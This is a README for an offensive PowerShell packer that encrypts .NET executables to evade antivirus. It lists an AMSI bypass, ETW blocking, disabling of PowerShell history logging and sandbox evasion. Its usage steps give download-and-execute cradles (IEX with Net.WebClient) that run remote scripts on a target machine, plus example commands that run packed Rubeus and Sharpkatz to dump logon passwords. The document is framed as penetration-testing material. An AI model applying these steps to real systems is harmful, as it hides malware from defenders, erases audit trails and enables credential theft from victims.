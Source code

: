 ### Invoke-PoSH-CsharpPacker
--------------------------------------
'Invoke-PoSH-CsharpPacker' allows to pack and encrypt offensive (C#) .NET executable files in order to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted PowerShell script that contains the (C#) .NET executable file that you want to pack.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass <i/>(bypass AMSI for Assembly.Load())</i>
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell script is not run on a domain-joined Windows computer 
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - STEP 1. Generate an obfuscated & encrypted PowerShell script that contains your (C#) .NET executable file (e.g. Rubeus.exe, Sharpkatz.exe) stored locally or on a remote web server.  
```
[*] First load the packer
    PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Jean-Francois-C/Windows-Penetration-Testing/master/Defense%20evasion%20(examples)/Invoke-PoSH-SharpPacker/Invoke-PoSH-CsharpPacker.ps1');

[*] Then "pack/obfuscate" a (C#) .NET executable file stored locally (with or without the sandbox checks enabled)
    PS C:\> Invoke-PoSH-CsharpPacker -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1
    --- or ---
    PS C:\> Invoke-PoSH-CsharpPacker -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox

[*] Or download and "pack/obfuscate" a (C#) .NET executable file stored stored on a remote web server (with or without the sandbox checks enabled)
    PS C:\> Invoke-PoSH-CsharpPacker -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 
    --- or ---
    PS C:\> Invoke-PoSH-CsharpPacker -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```
#### 
  - STEP 2. Download & execute the obfuscated & encrypted PowerShell script (that contains your (C#) .NET executable file) on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-Csharp-binary.ps1');

--- or (not recommended) ---
PS C:\> WGET -URI https://URL/Packed-Csharp-binary.ps1 -OutFile C:\temp\Packed-Csharp-binary.ps1
PS C:\> Import-Module C:\temp\Packed-Csharp-binary.ps1
``` 
#### 
  - STEP 3. Execute the packed version of your (C#) .NET executable file   
    - Generic command: ``` PS C:\> Invoke-Packed-NET-Executable argument1 argument2 argument3 ...``` 
    - Exemple with a packed version of Rubeus.exe: ```Invoke-Packed-NET-Executable logonsession /current```  
    - Example with a packed version of Sharpkatz.exe: ```Invoke-Packed-NET-Executable --Command logonpasswords``` 
    - Note: if you encounter errors while using a long command with multiple parameters, put the parameters in a powershell variable ;-)

#### LICENSE
  - GNU General Public License v3.0
